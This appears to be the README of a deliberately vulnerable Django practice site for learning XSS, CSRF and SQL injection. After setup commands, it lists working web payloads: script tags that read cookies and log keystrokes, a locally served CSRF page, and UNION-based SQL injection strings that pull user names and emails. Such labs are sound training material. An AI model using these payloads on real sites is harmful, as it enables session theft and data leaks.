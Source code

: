 This project can make the xss attack, csrf attack, sql inject attack.

The main reference is , <a href="https://whitehatways.com/cross-site-scripting-and-cookies-a-delicious-disaster/">linked here</a>, first download this project to your local computer. 

1. Install requirements with
<code>python3 -m pip install -r requirements.txt</code>

2. Run the following commands to get Django up and going!
<br><code>python ./manage.py makemigrations</code>
<br><code>python ./manage.py migrate</code>
<br><code>python ./manage.py createsuperuser</code>
<br>&emsp; Following the prompts here!
<br><code>python seed.py</code>

3. Run the server

<br>Run <code>python ./manage.py runserver</code> to begin!

4. To XSS

The post page can add comment and show the comments written by logged or anonymous users. So the anonymous users can 
inject the script code in the comments by XSS. Everyone open the post page will trigger the xss code which may leak
users information such like cookies, passwords and affect the use of the website.

some xss code like:
- steal cookies from logged-in users
```html
<script>alert(document.cookie.split('; ')[1]);</script>
```
- alert something to interference 
```html
<script>alert("You've been hacked");</script>
```
- Listen to the user's keyboard input
```html
<script>document.addEventListener('keypress', function (event) {console.log(event.key)})</script>
```

5. To CSRF

To CSRF We need to open a fake website by http server use following bash code
```bash
python -m http.server 8080
```
when you in the logged in the website, and Visit the `127.0.0.1:8080`. 
You commented on something that was not manned by you

6. To sql injection

The home page have a search input which have risks of SQL injection,
We can inject the database by some SQL code such like:
- get django user list
```sql
z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '
```
- get the email of django user 
```sql
z' UNION SELECT mail FROM auth_user WHERE first_name LIKE '
```

Happy Hacking! :)